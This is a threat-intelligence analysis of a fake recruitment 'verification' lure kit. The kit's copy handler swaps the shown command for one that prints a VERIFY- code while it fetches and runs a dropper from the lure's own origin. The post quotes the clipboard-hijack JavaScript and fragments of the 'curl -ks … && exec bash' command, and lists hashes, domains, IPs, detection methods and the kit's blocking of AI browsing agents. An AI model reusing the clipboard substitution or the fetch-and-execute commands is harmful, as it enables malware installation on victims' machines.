

I found that a fake recruitment verification page copies a different command than it shows. The copied command prints the promised `VERIFY-` code to the terminal while it also attempts to install a payload.

## Key takeaways

- When the candidate presses copy, the page replaces the selected text with a command that prints a `VERIFY-` result and starts an installer in the background.
- The installer is downloaded from the lure page's own origin, so the bundle contains no hostname literal and a search for known C2 domains misses it.
- One kit served every lure I recovered, and by 12 November it ran on a generation of 142 operator-named hostnames, of which 54 were live. The pretext changes freely; the funnel endpoints and the pasted command do not.
- Later builds show a 565-byte "Coming Soon" shell to clients that do not run JavaScript and block AI browsing agents, so a clean automated verdict on these hosts is weak evidence.
- Defenders should hunt for a shell or PowerShell download shortly after a terminal paste, from a host the browser had just been visiting.

## Context: one entry point in a larger cluster

The recruitment site asks the candidate to copy a verification command, run it in a terminal, and paste back the result. This is the ClickFix technique: a web page persuades someone to paste and run a command, which shifts execution from the browser to the user's terminal.

Three phishing messages received in June and July 2026 led me to several delivery branches, collection payloads, a GitLab configuration resolver and exposed administration software. In the browser branch, the verification step conceals the install attempt.

[Proofpoint tracks the cluster as UNK_DeadDrop](https://www.proofpoint.com/us/blog/threat-insight/dont-fear-repo-unkdeaddrop-phishing-campaign-targets-developers-steal). Its reporting, together with [Denys Vitali's earlier investigation](https://blog.denv.it/posts/i-was-likely-targeted-by-dprk-in-a-sophisticated-developer-malware-campaign/), provides context for the editor-based branch in the next post. Unit 42's [research on fake-recruiter campaigns delivering BeaverTail and InvisibleFerret](https://unit42.paloaltonetworks.com/north-korean-threat-actors-lure-tech-job-seekers-as-fake-recruiters/) describes the wider pattern of job-themed lures aimed at developers. The W3C [Clipboard API specification](https://www.w3.org/TR/clipboard-apis/) defines the copy event that allows a page to replace selected text.

## Delivery: the clipboard holds a different command

### The command shown to candidates

The recovered lures use recruitment and technical-assessment themes. Their verification flow asks the candidate to copy a command, enter or use an access phrase, and return the terminal's output.

The command does print the promised verification result while it also attempts to install a payload. That makes the exchange more convincing than a page that asks someone to run an unexplained command, because the page and terminal appear to agree. The candidate gets the expected output to submit.



*Figure 1. The copied command combines the verification output with an installation attempt.*

### Copying changes the terminal command

The copy handler served by `d2saitrade[.]ink` replaces the clipboard contents in a few lines. Only line breaks have been added to this excerpt:

```javascript
c.addEventListener(`copy`, e => {
  if (!(window.getSelection()?.toString() ?? ``).trim()) return;
  let t = e.target;
  !(t instanceof Node) || !c.contains(t) || (
    e.preventDefault(),
    e.clipboardData?.setData(`text/plain`, R(b.nonce, b.phrase, y)),
    x(`cmdline_copied`, { os: y, step: `verify` })
  );
});
```

`preventDefault()` stops the browser's normal copy operation. `setData()` places the result of `R()` on the clipboard: a command built for the detected operating system (`y`) and verification nonce. The handler then reports a `cmdline_copied` event to the site.

`R()` receives the phrase entered by the candidate, but that value does not appear in the command text in this bundle. The handler also runs only when text inside the command box is selected. I followed `R()` into the installation logic.

A clipboard API alone is a weak signal because legitimate applications use one too. The evidence of deception is the mismatch between the displayed verification text and the generated command.

### Platform-specific wrappers

The generated command differs by platform:

- On macOS and Linux, it starts a background download-and-execution sequence, then prints a `VERIFY-` result. Backgrounding lets the visible verification wrapper finish while installation proceeds separately.
- On Windows, the hidden installation logic is prepended to the prompt sequence, so the candidate sees an access-key prompt before the result. The recorded Windows branch explicitly enables the hidden installer.

Both wrappers are documented in the [clipboard-lure analysis](../../evidence/E02.pdf).

The verification output makes the copied command look successful even if the installation attempt fails. Checking for the expected prefix misses that second behavior.

The value the candidate pastes back is not decoration either. The flow is built so that the site sees the verification code before it opens the next step. That makes the form field a proof-of-execution gate as well as a filter against sandboxes, although I never recovered the backend code that checks it.

Two smaller details make the exchange harder to doubt. The nonce phrases shown on screen are drawn from a decoy list, so the visible text changes between visits. Before any of this, the page turns away mobile devices, fingerprints the operating system and browser, and posts telemetry with a `sendBeacon` fallback.

### Comparison with commercial ClickFix kits

Building the command at the moment of copying is not unique to this operator. The commercial ClickFix kits that circulated in 2026, such as [ErrTraffic](https://www.sekoia.com/blog/unveiling-errtraffic-inside-a-growing-clickfix-malware-distribution-framework), also give each visitor a different command. They ask their own server for an encrypted PowerShell line that targets Windows, and they are sold to many customers who inject the same widget into hacked websites.

This lure assembles the command inside the page from its own templates, the visitor's platform and the values of the verification exchange. It has working branches for macOS and Linux as well as Windows.

I compared it with four ClickFix frameworks reported in 2026. Only two of them are commercial: Sekoia reported ErrTraffic and Exvicy, both sold as malware-as-a-service, and IClickFix, which a single operator runs. Huntress reported the fourth, a chain delivered through a custom GPT, which is unattributed. None of their client-side markers, server routes or infrastructure appeared in any of the bundles I hold. Nothing points to a bought or rented front end, although a private or unreported kit remains possible.

## Installer: the download origin is the lure site

The URL builder takes its first-stage download location from `window.location.origin`. Whichever site serves the lure also supplies the download origin. The recorded names include:

```text
verify_m          Unix-like verification dropper
verify_w          Windows verification dropper
check_bot_m/w     Anti-bot variants
check_3d_m/w      Design-challenge variants
```

This design makes the frontend portable across lure domains. Changing the page's origin also changes the first-stage retrieval location, without a hostname literal in the bundle, so searching only for known C2 domains will miss that URL.

The filenames are no better as indicators. The same 52,108-byte Windows launcher was served as `/verify_w` on a conference-portal domain and as `/check_w` on a talent domain. The size differences between dropper copies on live hosts came only from the length of the embedded hostname, so the hash is the value to watch.

### Filenames rotate, the bytes do not

The launcher in that example has this SHA-256:

```text
465cd1a445782c72cbb30e82e57ebbae38f1535f248bf821b11bc4897d90180e
```

Stored scan records show it at `/verify_w` on `icagllmbt[.]space` on 2 November and at `/check_w` on `initiatalents[.]xyz` on 30 October, downloaded as `v.cmd` and `check.cmd`. The lure hosts are also catch-all servers. On `apexsyshire[.]ink` every dropper name in the rotation, including the retired `check_env_m` and `geetest_m`, returned HTTP 200 and a file, so a hunt for one filename finds every name and proves nothing.

The size lineage is mechanical. The hostname is embedded four times, so each dropper pair grows or shrinks by four bytes for every character of hostname:

| Host the pair was built for | Unix dropper (bytes) | Windows dropper (bytes) |
|---|---|---|
| `check_env` pair, 15 and 16 July | 41,100 | 39,875 |
| `joincategory[.]xyz` | 41,104 | 39,878 |
| `www.d2saitrade[.]ink` | 41,112 | 39,884 |
| `apexsyshire[.]ink` | 41,100 | 39,875 |

*Table 1. Stage-one dropper sizes follow the length of the embedded hostname.*

The `apexsyshire[.]ink` pair has exactly the sizes of the retired `check_env` pair. That is not a shared build: the hostname is one character shorter than `joincategory[.]xyz`, which gives 41,104 minus 4. Size therefore places a new sample in the sequence and says which host it was built for, but two builds can collide on size, so size orders a build and never identifies it.

Later launchers moved on. The pair served on `hyperlanecouncil[.]xyz` on 12 November was 56,175 bytes for `v.cmd` and 52,212 bytes for `verify_m`, both unknown to VirusTotal at the time. The macOS and Linux paths were unchanged, while the Windows path now fetched a stager, `botchk.js`, from the dead-drop host. That 47,841-byte stager resolves its server through the dead drop and posts to `/botchk/fetch` with `X-Bc-*` headers and an HMAC-SHA256 signature computed from an embedded key and the stager's own file hash. The server hands the next component only to a correctly signed request from an unmodified stager, which is why no public source holds it and neither do I. The command-and-control layer behind it is the subject of [Part 16](../16-control-layer-after-october/).

Public scan archives rarely hold the droppers at all. The pasted `curl` command fetches them, not a browser, so a crawler that renders the page never requests them. Where someone scanned a dropper URL directly, the archive kept the record but not the body, and the one stored dropper body I found was a Cloudflare 522 error page. The page bundles, an installer and an operator login script were recoverable from the same archive after the fleet went dark.

Later collection code obtains its destination through a separate mechanism, including the GitLab resolver examined in Part 6. The lure host and collection destination therefore belong at different points in the chain.

## Telemetry and evasion: the kit reports copies and hides from scanners

### Copy telemetry and the conversion funnel

The bundle references `/device-check`, `/verify`, `/complete` and `/track-activity`, plus challenge-specific routes. The `cmdline_copied` event shows that the client is designed to report when someone copies the command.

By the 12 November build the telemetry had become a conversion funnel. It posted page views, form submissions, referral-code unlocks, step checks and completions, command copies and a verification-draft event. The operator console that older builds hid behind an obscure route sat openly at `onboarding.<lure>/admin`. An onboarding "contractor portal" for applicants said to have passed offered tasks with repository links at quoted hourly rates.

That portal is a credential-harvesting stage in its own right. On `onboarding.hyperlanecouncil[.]xyz` on 12 November it offered registration and tasks carrying GitHub repository links at 60 to 80 dollars an hour, and it sent the password the applicant chose to its own `/track-activity` endpoint. Anyone who reused that password elsewhere should change it there too.

Not every console-looking view is real. The recruitment builds also carry `/recruiter` and `/dashboard` views that look like operator consoles, but both are labelled DEMO, list invented candidates and keep their state in the visitor's own browser storage. They are props that make the portal look like a working hiring platform.

The telemetry still records a copy action before any terminal execution. Neither that event nor the verification output confirms installation, and no backend infection log was recovered.

### Hosts that look empty to automated tools

The later builds were also made to look empty to the tools that would catalogue them. From July, every path on a lure host returned the same 565-byte "Coming Soon" shell to any client that did not run JavaScript. A URL scanner that fetches without executing scripts scores the host as a parked placeholder.

On `d2saitrade[.]ink` the root, `/careers` and a random path that did not exist all returned the same `index.html`, titled "D2S | Coming Soon", with one hash. The application rendered in the browser from a 101 KB bundle whose client-side routes include `/careers`, `/apply`, `/anti-bot-check`, `/device-check`, `/environment-setup`, `/design-challenge`, `/complete`, `/application-status`, the `/track-activity` endpoint and a `/guide.mp4` video.

By 12 November the careers bundle served a "device-blocked" page to the user agents of ChatGPT's browsing agent, OpenAI's search crawler, Perplexity's agent, Meta's external agent and Google search, among others. A clean or "parked" verdict from an automated service is therefore weak evidence about these hosts. An AI assistant asked to "check this careers page" on someone's behalf is one of the clients the kit turns away.

## Lure estate: one kit, many covers

### Two builds of one kit

The captured pages turned out to be one kit shipped in two sizes:

- A light build of about 100 KB, used on `d2saitrade[.]ink`, `joincategory[.]xyz` and `surgecareer[.]ink`, is a plain access-key panel.
- A heavy build of about 1 MB, used on `dscufo[.]xyz`, `nemesistrade[.]work` and an Almanac "validator" page, bundles browser machine-learning and 3D libraries. It runs a real in-browser face or "deepfake" check as a prop before the clipboard step.

Every bundle I recovered implements the same clipboard substitution and references the same first-stage endpoints. Across these interfaces, the clipboard substitution is the behavior that changes the command. The installer served under the AI-verification theme decrypts to the same company-wallet stealer the editor route installs.

### Kit versions do not follow registration dates

A token-level diff of the light bundles separates rebrands from new versions. The `surgecareer[.]ink` bundle is 99.68 percent similar to the Category Labs build across 52 cosmetic hunks, so it is the same build with the brand strings swapped. The D2S build is 68.21 percent similar across 245 differing hunks (29,111 tokens against 38,818), which makes it a version later, not a rebrand.

The two versions then ran side by side. `apexsyshire[.]ink`, registered on 19 July, six days after `d2saitrade[.]ink`, served the older 74,102-byte bundle. Its markers show the clipboard hijack, the detach string, the telemetry endpoint and the anti-bot wording, but no `design-challenge` route and no instructional video. That places it with the Category Labs bundle at 73,545 bytes and the Surge bundle at 73,092, not with the 101 KB D2S build.

A domain registered later therefore served the earlier kit while an earlier domain served the newer one. A build's version cannot be used to order the campaigns.

### Captured lure hosts

The retained lure material includes builds associated with `joincategory[.]xyz` and `d2saitrade[.]ink`, plus heavier captures from `dscufo[.]xyz` and `nemesistrade[.]work`. Later URLScan response-body recovery found the same kit on `discufo[.]xyz`, `trixauvex[.]org`, `surgecareer[.]ink`, `calendly[.]foxtopia[.]xyz` and `calendly[.]optixauvex[.]us`.

The June lure from `nodit[.]org` looks like an earlier and less mature iteration. Its wizard ends in an "Anti-Bot Check" that later dropper names echo, and a public sandbox fetch of its check path returned a launcher I hold. It ran on a different hosting stack, so I hold that link only at moderate confidence.

I added these captures to the known lure set. Visitor activity remains unknown. The [historical indicator reference](../../indicators/) lists their URLs and evidence class. The [artifact reference](../../artifacts/) records the response hashes.

### Covers matched to the respondent

The same clipboard kit appeared under later covers. July captures preserve an Almanac-themed page at `validator.aavzx[.]ink` and a 3D box-preview lure at `3dscenebox[.]online`. The latter's `check_3d_m` and `check_3d_w` files matched the `upd_m` and `upd_w` droppers from the `api.aazdias[.]ink` store by SHA-256. The captures date the pages and identify their droppers. No visitor execution records accompanied them.

The operator's own console, which I read later, explained why the covers differ. The mailing list behind the lures is an untargeted harvest of commit addresses, the console records who replies, and each respondent receives a pretext matched to how they describe themselves:

- A crypto developer gets a validator page.
- Someone who says they do not code gets an invitation to review a repository in an AI editor.
- Someone who mentions 3D work gets the Scene Box preview.

All three skins drop the same pair of droppers. I looked for a separate pipeline aimed at designers and artists and found none, so Scene Box is a skin on the existing kit rather than a new campaign.

Five checks support that. The address harvester queries star bands only, with no filter by profession. The operator's console models a target as a GitHub user and has no portfolio or design-platform field anywhere in its schema. `3dscenebox[.]online` is the only design-themed domain the operator ever registered, certificate transparency shows only it and its `www`, and its mail exchanger was never configured, so nothing was mailed from a design-themed identity. Traffic arrives on per-recipient URL tokens that the page reports back, not by discovery. The operator's handles are essentially absent from the design platforms. There is no community of 3D artists to warn, because they are not being sourced as a group.

### Impersonated brands are victims too

The Almanac page shows how the operator uses a real company. Almanac is a real prediction-market startup. The operator's "Almanac Validator" offered a Solana validator and staking sign-up that the real product does not have at all, and ran the heavy build behind it. The genuine homepage bundle contains none of the kit's markers, references none of the operator's domains, and sits on separate hosting and a separate Cloudflare account.

The brand is therefore a victim in the same class as the other impersonated companies, and its own users are the people the lure is aimed at. In passive data a brand being impersonated looks much like a brand being operated. The test that separated them here is reusable: read the candidate's own bundle for the kit, compare the hosting and the account, and ask whether the impersonated feature exists in the real product.

### Changes after July

The kit kept changing after July, and the later builds show where the operator put its effort. A newer version widened the role selector from engineering to designers, product and project managers, marketers, HR, analysts, customer success and technical writers. It added a 3D "design challenge" path, an interactive shape editor whose completion triggers a render verification that copies the hijacked command under its own dropper filename. It also added a short instructional video of 524,918 bytes, played in a modal titled "How it works", that walks the applicant through the paste step. Those roles are less likely than developers to recognize a pasted terminal command as hostile, and just as likely to hold corporate credentials, so an advisory scoped to crypto developers understates who is targeted. No legitimate careers site needs to teach anyone to paste a command into a terminal, which makes the video a detection opportunity of its own.

Around the kit, the lure estate was rebuilt twice:

1. An August and September wave of about 98 names in seven naming families such as `buildwith<project>` and `join<project>`, impersonating about fifty real crypto projects.
2. A fleet on new addresses, from late September and mainly in October, with new pretexts: a research fellowship, a conference invitation portal, parcel-tracking and document pages whose behavior I could not establish, and a fake Bittensor subnet. Passive DNS first records eleven lure domains on `193.160.32[.]10` on 30 September.
3. A November generation of 142 operator-named hostnames that I recovered only by pivoting addresses [Stormshield published in its Trigram report](https://web.archive.org/web/20261111155634/https://www.stormshield.com/news/cti-trigram-campaign/), of which 54 were live on 12 November.

A 55-folder directory of `FrontEnd<Brand>` folders, served on one address under five lure hostnames in October, named the June, July and October brands side by side. That is the strongest single sign that these waves are one operation, although the folders' contents were never recovered.

The catalogue was a 2,908-byte directory listing on port 8080 of `193.160.32[.]10`. Its labels include the July brands D2S, DSCUFO, Cat, Apex and Surg, a `validator.dokamacto[.]xyz` folder continuing July's "Validator | Almanac" page, and `mail.ievade[.]net` serving "Aleph Zero | Careers". Which folder served which domain was never recovered either.

### One platform, seven pretexts

Reading eleven recovered site bundles beside archived and third-party captures shows a single front-end platform with the pretext swapped:

| Pretext | Example | What it asks for |
|---|---|---|
| Job recruitment | the careers lures above | an application and a verification command |
| Research fellowship | `scrolltalents[.]online` | "Protocol Fellow" and "Core Contributor" tracks with a challenge, match and proposal flow |
| Contributor missions | `buildwithespresso[.]online` | `/missions` and `/contribute` pages |
| Conference invitation | `icagllmbt[.]space` | an invitation code for "ICAGLLMBT 2027 - Invitation Portal - Tokyo" |
| Parcel tracking | courier-branded pages, including DPD and Aramex | behavior after loading not established |
| Document sharing | DocVault, DocSeal, PaperVault, SignDesk and FileKeep pages | behavior after loading not established |
| Fake Bittensor subnet | Nadirva Subnet, Terraverro Subnet, Geoveral Subnet | "founding" developers for satellite-imagery miners, with fake miner set-up instructions |

*Table 2. Pretexts observed on the lure platform by 12 November 2026.*

The shared machinery is what makes them one thing. The fellowship, missions and subnet bundles use the same `/apply`, `/refcode/unlock`, `/refcode/consume`, `/refcode/cmd-copy` and `/track-activity` endpoints as the recruitment lures, the same `cn_ip_restricted` and `alb_verify` markers, the same `cmdline_copied` event, and the same `curl -ks … && exec bash` stage-two command fetching `verify_w` or `verify_m` from the site's own origin.

Two rows of the table need their limits stated. The conference portal is a real event's name used without the organizer's process: the organizer's own invitation-letter procedure is entirely different and does not link the domain, although I cannot prove the organizer did not authorize it. What ties it to the operator is its host, which served the known launchers at `/verify_m` and `/verify_w` on 2 November. Whether any invitation code circulated is unknown.

The parcel and document rows rest on thirteen services on ports 3260 to 3272 of `193.160.32[.]10`, first seen between 9 and 27 October, whose page titles and decoded HTML shells describe pickup-code confirmation, Aramex tracking and rescheduling, encrypted-file storage and document release. They share the address with confirmed recruitment pages, and the root page of the parcel-named `shiptrace[.]delivery` was titled "Aleph Zero | Careers" under a certificate for `alephzerotalents[.]xyz`, a known recruitment lure. Their association with the recruitment infrastructure is well supported. What the pages did after loading their JavaScript, whether they captured credentials or delivered anything, and who controlled each service are not established, so I do not call them operator lures.

The pretext is cheap and interchangeable, while the funnel is the operator's shared code. Hunting should key on the endpoint paths and the stage-two command shape, not on the scenario. The subnet names are invented words plus "Subnet" and follow no brand pattern, so a name filter will not catch the next one.

## Provisioning: dated batches and names that predict nothing

### The fleet is stood up in batches

The lure domains are provisioned in a recognizable rhythm:

1. Registration comes in bursts at one registrar, Namecheap, with its nameservers. The four `.space` names `pixelground`, `geoveral`, `groundvy` and `veriearth` were registered between 13:35 and 15:29 UTC on 21 October; sixteen further lure domains followed on 9 or 10 November.
2. Certificates follow in a single minute. The four `.space` names carry Let's Encrypt certificates issued at about 15:53 UTC on 21 October, shortly after the last registration, with replacements five days later.
3. Deployment starts on a staging host. All forty hostnames seen on the Coolify deployment server `23.137.104[.]77` resolved there first, between 16 and 20 October, and thirty-six of them later moved to the serving address `208.84.100[.]64`.
4. Names are duplicated across top-level domains for one brand, as with `geoveral` under `.ink`, `.online` and `.space`.

Because a batch shares a registration hour and a certificate minute, finding one member dates the rest, and a new name on the staging host is an early signal of the next batch. The lag is not uniform across the estate: nine of eleven `.xyz` lure names with both dates waited eleven to fifteen days between registration and their first certificate, while most of the operator's `.ink` command domains received one within the hour.

### The November generation

The November generation came to light only by pivoting the eight addresses Stormshield published. Their resolutions returned 165 hostnames, of which only two had appeared anywhere in my files. Of the rest, 142 follow the operator's naming: 125 recruitment-pattern names and seventeen others, among them the "earth"-themed subnet names and two dashboard hosts. Another 21 are probably unrelated co-tenants of the same servers.

On 12 November at 02:30 UTC, 54 of the lure domains were live, meaning registered, not on hold and resolving to operator servers, all on Namecheap nameservers:

| Serving address | Live lure domains |
|---|---|
| `65.110.40[.]18` | 12 |
| `193.160.32[.]243` | 11 |
| `208.84.100[.]64` | 11 |
| `170.205.28[.]251` | 10 |
| `193.160.32[.]188` | 9 |
| `170.205.30[.]27` | 1 |

*Table 3. Live lure domains by serving address, 12 November 2026.*

Sixteen of the 54 had been registered on 9 or 10 November, two to three days before the check, so the fleet was still growing. About forty more were on registrar hold and 27 no longer resolved. Registration dates span 28 April to 10 November 2026, with 107 domains registered in October and 24 in November. Every one of these serving addresses belongs to the single hoster behind the whole estate, which [Part 16](../16-control-layer-after-october/) discusses.

Four names with no delegation still answered with `45.54.28[.]15`. That address belongs to DNSFilter, a DNS-filtering company, and reads as a sinkhole response, not as a new serving host. A sweep that only reads addresses would mistake it for a consolidation of the fleet, so the holder of an unexpected shared address needs checking before it is used as a pivot.

### Why the next domain cannot be predicted

I tokenized 352 registrable lure domains into template, brand and top-level domain. The templates are `inv2<brand>`, `buildwith<brand>`, `workwith<brand>`, `hirewith<brand>`, `jointo<brand>`, `join<brand>`, `<brand>builders`, `<brand>talents`, `<brand>council`, `<brand>hires`, `<brand>careers` and `<brand>gigs`, over thirteen cheap top-level domains and 69 brands.

A certificate-transparency sweep of 489 queries over the used brands and 38 crypto projects not yet impersonated found 1,694 registrable names that matched a template and were new to me. A strict filter requiring an operator top-level domain, a crypto brand and a 2026 certificate cut them to 26, and none of the 26 was on operator infrastructure. Fourteen sat on domain-sale parking, three on Parity landers, four on other parking or hosting, and five had no address at all.

The reason is structural. Builders, talent, hire, careers and gigs are ordinary business words, and a crypto brand plus a recruitment word on a cheap top-level domain is also what domain speculators register. The discriminator that does work, the operator's hoster with Namecheap registration and a certificate minutes after it, can only be read once the domain is stood up. Certificate transparency on the operator's known bases and subdomain scheme (`api.`, `dev.`, `validator.`, `hold.` and `dashboard.` recur) was the one hunting method that kept finding new infrastructure, within the limit that the crt.sh index had lost most of this operator's certificates since September.

## Detection: signals in the page and on the endpoint

### Browser-side and endpoint signals

The useful browser-side signal is the combination of a verification interface, a copy handler and an argument that leads to installation logic. The word "verify," a clipboard API or a download helper alone is weak evidence.

Endpoint hunting should follow the command's actual destination. Here the candidate pastes into a terminal, so a rule requiring an editor-to-shell process chain would miss the intended behavior. Follow the copied command, its child processes, downloaded scripts, persistence and outbound connections.

For static triage, compare the displayed text with the value passed to the clipboard, then trace the download URL back through the command builder. That exposes the substitution without executing the bundle.

Because the first-stage download comes from the lure page's own origin, one concrete hunt follows directly from the code: look for a shell or PowerShell download shortly after a terminal paste, from a host the browser had just been visiting.

The [technical paper](../../downloads/UNK_DeadDrop-Preprint.pdf) also records that some copied strings end in a trailing newline. Depending on terminal behavior, the command may run as soon as it is pasted. This was not tested across terminals.

### Static scanning of the lure bundle

A later scan of a held lure bundle found two clipboard-write sites in a sample of 73,545 bytes, with the following SHA-256:

```text
5ee915bb8d0363bd92176cc595d7425fd7e7830508d8824d90b5285a3d2b11bd
```

The copied value in this bundle is generated when someone clicks. The builder receives the visitor's operating system along with a nonce and phrase, so a scanner that reads only literal string arguments sees a clipboard call with an unresolved value.

Version 0.2.0 of the companion scanner follows that value through the command builder, platform helpers and process-detaching wrapper. It extracts their text without evaluating the code. In this bundle, the `clickfix-clipboard-command` rule reports an error and identifies the `perl -MPOSIX` double-fork wrapper, the verification wording and the copy handler that replaces the selected text.

The same rule follows the later Scene Box lure's generic `copyText(text)` helper to the `curl -ks … && nohup bash` command supplied by its callers. All three retained lure generations reach error level.

Across the 3,000 popular npm packages and Open VSX extensions used to calibrate the scanner, the rule raised no errors and one warning for an installer's "copy command" button. That low noise is not the same as coverage, as the limits below show.

## Limitations

- In a later bypass study, single small rewrites evaded the rule until I hardened it: reaching the clipboard builder through a reassignable alias, assembling the command elsewhere, or copying a hidden textarea through the legacy copy command.
- A command fetched at run time is out of reach of any static check because its text is not in the file. To verify the visual deception, compare the rendered instruction with the command placed on the clipboard in a browser.
- Visitor activity remains unknown, and no backend infection log was recovered.
- The parcel-tracking and document pages are associated with the recruitment infrastructure, but their behavior and control are not established.

## Conclusion

The lure's deception sits in one place: the gap between the command the page displays and the command it places on the clipboard. The verification output then makes the pasted command look successful, and the pasted-back code gives the operator proof of execution.

Defenders can compare displayed and copied text during static triage, and watch endpoints for a shell or PowerShell download that follows a terminal paste from a recently visited host. Domain blocklists and dropper filenames age quickly here; the hash of the launcher and the behavior of the copy handler last longer. The same holds one level up: pretexts, brands and domain names rotate every few weeks, while the funnel endpoints, the stage-two command and the provisioning rhythm stayed the same from July to November.

The [repository branch](../02-vsix-editor-execution/) uses a different entry point: a package calling itself Google Update Support installs collection components through the code editor.
